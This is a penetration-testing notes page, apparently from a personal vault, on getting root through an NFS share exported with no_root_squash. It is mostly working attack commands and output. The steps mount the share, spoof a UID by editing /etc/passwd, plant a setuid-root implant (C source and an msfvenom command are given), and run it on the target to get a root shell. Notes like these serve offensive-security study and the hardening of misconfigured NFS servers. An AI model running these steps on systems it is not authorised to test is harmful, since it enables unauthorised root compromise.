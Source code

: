 # Living off the Land

## 01 - Detect

Files were made with NFS that derives the user's ID. If the user is `root`, and **root squashing** is enabled, the ID will instead be set to the `nobody` user. Whatever we have enumerated the server through active fingerprint (go to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/File Server/NFS|NFS enumeration phase]] section to learn the practical methods) or we have compromised the Linux machine with least privileges.

Let's see the NFS configuration in the `/etc/exports`.

```
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Looks like the `/tmp` directory has `no_root_squash` enabled. Through the attacker's machine we have run as `root` and create a directory to mount point the NFS server.

## 02 - Exploit

Mount the **Network File System (NFS)** from the vulnerable Linux systme

```
userware@hackware-os:~$ sudo su
root@hackware-os:~# mkdir /mnt/nfs
root@hackware-os:~# mount -o rw,vers=2 <IP>:</directory_name> /mnt/nfs
```

### 2.1 - Spoof User ID

TODO: Fill in the missing steps when spoofing the UID.

```
root@hackware-os:~# ls -l /mnt/nfs/

root@hackware-os:~# useradd -m nfsuser -s /bin/bash

root@hackware-os:~# grep <nfs_user_UID> /etc/passwd
```

The syntax as it shows.

```
root@hackware-os:~# sed -ie 's/<current_user_UID>/<target_UID_to_spoof>/g' /etc/passwd
```

Spoof the UID.

```
root@hackware-os:~# sed -ie 's/1001/1014/g' /etc/passwd
```

Switch user account then read the file.

```
root@hackware-os:~# su nfsuser

nfsuser@hackware-os:~$ id

nfsuser@hackware-os:~$ cat /mnt/nfs/file.txt
```

### 2.2 - Copy Unix Shell Prompt

We can just copy the POSIX shell prompt (`/bin/dash`) to the target.

```
root@hackware-os:~# cp /bin/dash /mnt/nfs/implant

root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

### 2.3 - Copy Implant

We can compile our binary in C language using the previous technique about taking advantage of the Cron Job to execute a SUID `/bin/bash`.

```
root@hackware-os:~# cat implant.c
int main() {
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
root@hackware-os:~# gcc implant.c -o implant
```

We can either generate a `msfvenom` payload.

```
root@hackware-os:~# msfvenom -p linux/x86/exec cmd="/bin/bash -p" -f elf -o /mnt/nfs/implant
```

Change file permissions.

```
root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

Now if we return to the compromised machine you can see it has a sticky bit of SUID that can be taken advantaged of all because of enabling the `no_root_squash` from the NFS configuration.

```
root@hackware-os:~# ls -lh /mnt/nfs/implant
-rwsr-sr-x 1 root root 16K Jan 21 20:29 /mnt/nfs/implant
```

Now if we check on the compromised target side we can see our shell that has been successfully copied via root

```
$ ls -lh /home/ubuntu/sharedfolder/
total 16K
-rwsr-sr-x 1 root root 16K Jan 22 01:29 implant
$ /home/ubuntu/sharedfolder/implant -p
# whoami
root
```

## 03 - Cleanup

```
# exit
$ whoami
user

root@hackware-os:~# rm /mnt/nfs/implant
root@hackware-os:~# umount /mnt/nfs
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/File Server/NFS|Manual NFS: Network Protocols]]

- [Hacktricks: NFS no_root_squash/no_all_squash misconfiguration PE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)